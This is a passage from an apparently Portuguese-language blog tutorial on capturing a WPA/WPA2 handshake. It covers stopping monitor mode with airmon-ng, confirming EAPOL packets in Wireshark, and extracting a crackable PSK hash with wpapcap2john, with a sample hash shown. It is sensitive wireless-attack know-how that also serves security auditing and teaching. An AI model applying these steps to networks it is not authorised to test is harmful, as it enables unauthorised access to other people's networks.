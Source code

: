 ##### Depois do handshake capturado você já pode encerrar a captura e se você verifcar o diretorio atual verá alguns arquivos incluindo um arquivo arquivo.cap

##### E depois da captura ser feita, você pode colocar a interface de volta em modo Managed

```
$ sudo airmon-ng stop <interface>  # encerrar o modo monitor

depois

$ service network-manager start  # reinicia o gerenciador de rede
```
($ iwconfig para confirmar o modo que a interface esta)
 
 
 
 
_________________________________________________________________________________________________________________________________________________________
# Setimo passo
##### Você pode verificar se os pacotes de autenticação foram capturados com sucesso abrindo o arquivo .cap no wireshark e filtrando os pacotes ```EAPOL``` dessa forma:  

![eapol-ex](https://github.com/geleiaa/blog-repo/blob/main/imgs/eapol-ex.png)


(os pacotes m1 até m4 precisam ser capturados)

- mais  informações aqui: (https://community.cisco.com/t5/wireless-mobility-knowledge-base/802-11-sniffer-capture-analysis-wpa-wpa2-with-psk-or-eap/ta-p/3116990)


##### Depois do HANDSHAKE capturado há algumas formas de extrair só a parte que interessa. Uma delas é com uma ferramenta wpapcap2john do pacote John The Ripper.

##### Se o handshake foi capturado corretamente a ferramenta pode extrair um hash da senha (psk) com seguinte comando:

```  
$ wpapcap2john arquivo.cap > <arquivo de saida> 
```

##### No arquivo ficara um hash parecido com esse:

``` 
ESSID:$WPAPSK$ESSID#x3EU5Y3o1jRkE5hTM0qamIqSFyApa7cBSX5AZFNCidtAkKPdtQ1uyW2Hv1z8s4BrRP7aFIZy19Jsvy9hMhX5O8FRp2P1UaDjQ8MpZE21.5I0.Ec................wzRUT2
b9IE63q1mc:0ef770407b5f:f454201e4174:f454201e4174::WPA2, verified:arquivo.cap
``` 
